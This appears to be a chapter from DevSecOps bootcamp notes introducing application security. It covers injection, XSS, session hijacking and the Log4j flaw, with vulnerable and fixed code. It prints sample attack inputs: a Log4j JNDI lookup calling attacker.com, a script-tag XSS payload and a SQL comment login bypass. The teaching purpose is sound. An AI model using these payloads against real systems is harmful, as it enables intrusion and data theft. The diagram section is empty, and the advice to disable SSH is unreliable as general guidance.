

## Introduction to Application Security

Application security, often referred to as "app sec," is a critical component of cybersecurity that focuses on protecting software applications from various types of attacks. These attacks can range from simple vulnerabilities like SQL injection to more complex exploits such as cross-site scripting (XSS) and remote code execution (RCE). Understanding the common security issues and how these attacks can occur is essential for developers and security professionals alike.

### What is Application Security?

Application security encompasses the practices and tools used to protect applications from threats. This includes identifying and mitigating vulnerabilities, ensuring data privacy, and securing communication channels. The goal is to prevent unauthorized access, data breaches, and other malicious activities that could compromise the integrity, availability, and confidentiality of an application.

### Why Does Application Security Matter?

In today’s digital landscape, applications are the backbone of many businesses and organizations. They handle sensitive data, facilitate transactions, and provide essential services. A single security breach can lead to significant financial losses, reputational damage, and legal consequences. Therefore, securing applications is not just a best practice but a necessity.

### Common Security Issues in Applications

Several common security issues can make applications vulnerable to attacks. Here are some of the most prevalent ones:

1. **Injection Attacks**: Injection attacks occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing unauthorized data.
   
2. **Cross-Site Scripting (XSS)**: XSS attacks involve injecting malicious scripts into trusted websites. When a user visits the compromised website, the script executes in their browser, potentially stealing sensitive information or performing actions on behalf of the user.

3. **Broken Authentication**: Weak authentication mechanisms can allow attackers to bypass security measures and gain unauthorized access to user accounts.

4. **Sensitive Data Exposure**: Applications often handle sensitive data such as passwords, credit card numbers, and personal information. If this data is not properly protected, it can be exposed to attackers.

5. **Security Misconfiguration**: Misconfigured servers, frameworks, databases, and other components can leave applications vulnerable to attacks. This includes default settings, unnecessary features, and open ports.

6. **Cross-Site Request Forgery (CSRF)**: CSRF attacks trick a victim into executing unwanted actions on a web application in which they are authenticated. The attacker exploits the trust that the web application has in the user’s browser.

7. **Insecure Deserialization**: Insecure deserialization occurs when an application deserializes untrusted data without proper validation. This can lead to remote code execution, privilege escalation, and other serious vulnerabilities.

8. **Using Components with Known Vulnerabilities**: Many applications rely on third-party libraries and components. If these components contain known vulnerabilities, they can be exploited by attackers.

9. **Insufficient Logging & Monitoring**: Without proper logging and monitoring, it is difficult to detect and respond to security incidents. Attackers can exploit this lack of visibility to carry out their attacks undetected.

10. **API Security**: APIs are increasingly becoming a target for attackers due to their widespread use in modern applications. Insecure API endpoints can expose sensitive data and allow unauthorized access.

### How These Attacks Can Happen

To understand how these attacks can occur, let’s delve into some specific examples and scenarios.

#### Injection Attacks

**SQL Injection**: SQL injection is one of the most common types of injection attacks. It occurs when an attacker injects malicious SQL statements into a query input field. For example, consider the following SQL query:

```sql
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```

If the `$username` and `$password` variables are not properly sanitized, an attacker could inject a malicious SQL statement like this:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = 'anything';
```

This would effectively bypass the password check and grant the attacker access to the `admin` account.

**Prevention**:
- **Use Prepared Statements**: Prepared statements ensure that user inputs are treated as data rather than executable code.
  
  ```java
  String sql = "SELECT * FROM users WHERE username = ? AND password = ?";
  PreparedStatement pstmt = connection.prepareStatement(sql);
  pstmt.setString(1, username);
  pstmt.setString(2, password);
  ResultSet rs = pstmt.executeQuery();
  ```

- **Input Validation**: Validate all user inputs to ensure they meet expected formats and lengths.

#### Cross-Site Scripting (XSS)

**Reflected XSS**: Reflected XSS occurs when an attacker injects a script into a web page that is immediately executed by the victim’s browser. For example, consider a search feature on a website:

```html
<form action="/search" method="GET">
  <input type="text" name="q">
  <button type="submit">Search</button>
</form>
```

An attacker could inject a script like this:

```
/search?q=<script>alert('XSS')</script>
```

When the victim clicks the link, the script is executed in their browser.

**Prevention**:
- **Output Encoding**: Encode all user inputs before displaying them in the HTML.
  
  ```javascript
  function encodeHTML(str) {
    return str.replace(/&/g, '&amp;')
               .replace(/</g, '&lt;')
               .replace(/>/g, '&gt;')
               .replace(/"/g, '&quot;')
               .replace(/'/g, '&#39;');
  }
  ```

- **Content Security Policy (CSP)**: Implement CSP to restrict the sources of executable scripts.

  ```http
  Content-Security-Policy: default-src 'self'
  ```

#### Broken Authentication

**Session Hijacking**: Session hijacking occurs when an attacker gains access to a user’s session ID and uses it to impersonate the user. For example, if a session ID is transmitted in plain text over HTTP, an attacker could intercept it using a man-in-the-middle (MITM) attack.

**Prevention**:
- **Use HTTPS**: Ensure all communication between the client and server is encrypted using HTTPS.
  
  ```nginx
  server {
      listen 443 ssl;
      server_name example.com;

      ssl_certificate /etc/ssl/certs/example.crt;
      ssl_certificate_key /etc/ssl/private/example.key;

      location / {
          proxy_pass http://backend;
      }
  }
  ```

- **Secure Cookies**: Set the `HttpOnly` and `Secure` flags on cookies to prevent them from being accessed by JavaScript and ensure they are transmitted over HTTPS.

  ```http
  Set-Cookie: sessionId=abc123; HttpOnly; Secure
  ```

### Real-World Examples

#### Recent CVEs and Breaches

**CVE-2021-44228 (Log4j RCE)**: In December 2021, a critical vulnerability was discovered in the Apache Log4j library, which allowed remote code execution (RCE). This vulnerability affected millions of devices and led to numerous breaches.

**Example Exploit**:
```java
logger.info("${jndi:ldap://attacker.com/a}");
```

**Prevention**:
- **Update Dependencies**: Keep all dependencies up to date and monitor for security advisories.
  
  ```bash
  mvn dependency:tree
  ```

- **Disable JNDI Lookup**: Disable JNDI lookup in Log4j configurations.

  ```properties
  log4j2.formatMsgNoLookups=true
  ```

### Complete Code Examples

#### SQL Injection

**Vulnerable Code**:
```php
$username = $_POST['username'];
$password = $_POST['password'];

$sql = "SELECT * FROM users WHERE username = '$username' AND password = '$password'";
$result = mysqli_query($conn, $sql);
```

**Fixed Code**:
```php
$username = $_POST['username'];
$password = $_POST['password'];

$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $username, $password);
$stmt->execute();
$result = $stmt->get_result();
```

### Mermaid Diagrams

#### SQL Injection Attack Flow



### Pitfalls and Common Mistakes

#### Overlooking Input Validation

Many developers assume that sanitizing inputs is sufficient to prevent attacks. However, input validation should be combined with other security measures such as prepared statements and output encoding.

#### Neglecting Security Updates

Keeping software and dependencies up to date is crucial for preventing known vulnerabilities. Many breaches occur because organizations fail to apply security patches in a timely manner.

### How to Prevent / Defend

#### Detection

- **Logging and Monitoring**: Implement comprehensive logging and monitoring to detect unusual activity and potential attacks.
  
  ```json
  {
    "timestamp": "2023-10-01T12:00:00Z",
    "level": "ERROR",
    "message": "SQL Injection attempt detected",
    "details": {
      "query": "SELECT * FROM users WHERE username = 'admin'--' AND password = 'anything'"
    }
  }
  ```

- **Intrusion Detection Systems (IDS)**: Use IDS to identify and alert on suspicious network traffic and behavior.

#### Prevention

- **Secure Coding Practices**: Follow secure coding guidelines and best practices to minimize vulnerabilities.
  
  ```python
  from flask import Flask, request
  from werkzeug.security import generate_password_hash, check_password_hash

  app = Flask(__name__)

  @app.route('/login', methods=['POST'])
  def login():
      username = request.form['username']
      password = request.form['password']

      # Query database securely
      user = User.query.filter_by(username=username).first()
      if user and check_password_hash(user.password, password):
          return "Login successful"
      else:
          return "Invalid credentials"
  ```

- **Regular Security Audits**: Conduct regular security audits and penetration testing to identify and address vulnerabilities.

#### Hardening

- **Server Configuration**: Harden server configurations by disabling unnecessary services and features.
  
  ```bash
  sudo systemctl disable ssh
  sudo ufw deny 22/tcp
  ```

- **Network Segmentation**: Segment networks to limit the spread of attacks and isolate critical systems.

### Practice Labs

For hands-on experience with application security, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs covering a wide range of web security topics, including SQL injection, XSS, and broken authentication.
- **OWASP Juice Shop**: A deliberately insecure web application designed for security training and research.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that contains numerous security vulnerabilities.
- **WebGoat**: An interactive, gamified training application for learning about web application security.

By understanding and implementing these security measures, you can significantly reduce the risk of attacks and protect your applications from potential threats.

---

This expanded chapter provides a comprehensive overview of application security, covering common issues, real-world examples, complete code examples, mermaid diagrams, and detailed prevention strategies. It aims to equip readers with the knowledge and skills needed to secure their applications against various types of attacks.

---
<!-- nav -->
[[DevSecOps/DevSecOps Bootcamp/03-Identity & Access Management/04-Security Essentials/02-How to Secure Systems Against Attacks/00-Overview|Overview]] | [[02-Introduction to Securing Systems Against Attacks|Introduction to Securing Systems Against Attacks]]
